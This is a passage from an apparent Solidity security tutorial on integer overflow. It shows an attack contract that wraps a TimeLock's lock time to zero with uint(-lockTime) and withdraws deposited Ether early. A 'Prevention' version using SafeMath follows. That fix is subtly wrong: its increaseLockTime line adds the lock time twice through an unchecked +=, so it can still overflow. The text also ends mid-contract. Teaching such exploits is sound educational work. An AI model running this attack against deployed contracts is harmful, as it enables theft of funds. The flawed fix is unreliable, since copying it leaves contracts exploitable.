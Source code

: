 ```solidity
    TimeLock timeLock;
    
    constructor(TimeLock _timeLock) public {
        timeLock = TimeLock(_timeLock);
    }
    
    fallback() external payable {
        
    }
    
    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        //t == current lock timeLock//find x such that 
        //x + t = 2**256 = 0
        timeLock.increaseLockTime(
            //a huge number
            uint(-timeLock.lockTime(address(this)))
            );
            timeLock.withdraw();
    }
}
```

#### Prvention

- Use safemath

```solidity
pragma solidity ^0.6.10;

/*
overflow
underflow
uint = 2**256-1
-3 will be an underflow
*/

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract TimeLock {
    using SafeMath for uint; //myUint.add(123)
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;
    
    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = now + 1 weeks;
    }
    
    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += lockTime[msg.sender].add(_secondsToIncrease);
    }
    
    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(now > lockTime[msg.sender], "lock time not expired");
        
        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;
        
        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
```